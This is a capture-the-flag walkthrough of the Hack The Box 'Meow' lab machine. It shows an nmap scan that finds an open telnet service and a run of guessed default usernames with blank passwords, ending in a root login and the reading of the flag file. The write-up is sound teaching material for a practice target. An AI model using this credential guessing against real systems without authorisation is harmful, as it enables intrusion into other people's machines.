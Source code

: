 ### Tools
* Nmap

### Recon
First thing I'm going to do is run an **nmap** scan of the machine. 

```
└─$ nmap -sC -sV -oA meow 10.129.45.206
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-25 23:35 EST
Nmap scan report for 10.129.45.206
Host is up (0.052s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* `Port 23` is open and is running a **telnet** service.

We can try to connect to this telnet port. 

*If you don't have telnet on your VM (virtual machine). I'm using Kali Linux in VirtualBox. The command to install it is: `apt-get install telnet` if this doesn't work then add `sudo` like so: `sudo apt-get install telnet`. `sudo` (superuser do) allows you to run some commands as the root user.*

```
└─$ telnet 10.129.45.206
Trying 10.129.45.206...
Connected to 10.129.45.206.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
Password: 
```
We are presented with a login screen. However, so far we don't know what the username/password could be. We need to find some credentials so we can attempt to login. 

### Foothold
Since this machine is considered 'Very Easy'. We'll assume the login credentials would be something easy and predictable. 

Some predictable usernames that are important: 
* admin
* administrator
* root 

As for the password, let's assume there is none because sometimes they are left blank or super easy ones such as `password`, `password123`, or even `12345678`. 

Let's test these usernames out first with no password!
```
Meow login: admin
Password: 

Login incorrect
Meow login: administrator
Password: 

Login incorrect
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 26 Feb 2022 05:05:33 AM UTC
```
Well would ya look at that! We are able to login as the root user without a password! 

We can confirm that we are indeed the root user: 
```
root@Meow:~# whoami
root  
```

And when we check the current directory, the `flag.txt` is the first thing we see: 
```
root@Meow:~# ls                                                                             
flag.txt  snap 
```
Then we can run the `cat flag.txt` command to reveal the flag! We're done!

### Summary
I know that this is a super short and easy machine on Hack The Box, but it's still learning and practice experience. It's great for getting used to using **Nmap** and exploiting **telnet**. The issue with this telnet login is account misconfiguration. Where an important user, `root` in this case, doesn't have a password setup allowing attackers a super easy way into a system. This machine doesn't go in-depth on how to exploit telnet services, but least we're able to try logging in and understand that we can use predictable login credentials to brute-force our way in. Next time, if we run into another situation similar to this we can try doing this and if it doesn't work we can rule it out and try other methods.

Tags: Linux | Network | Account Misconfiguration
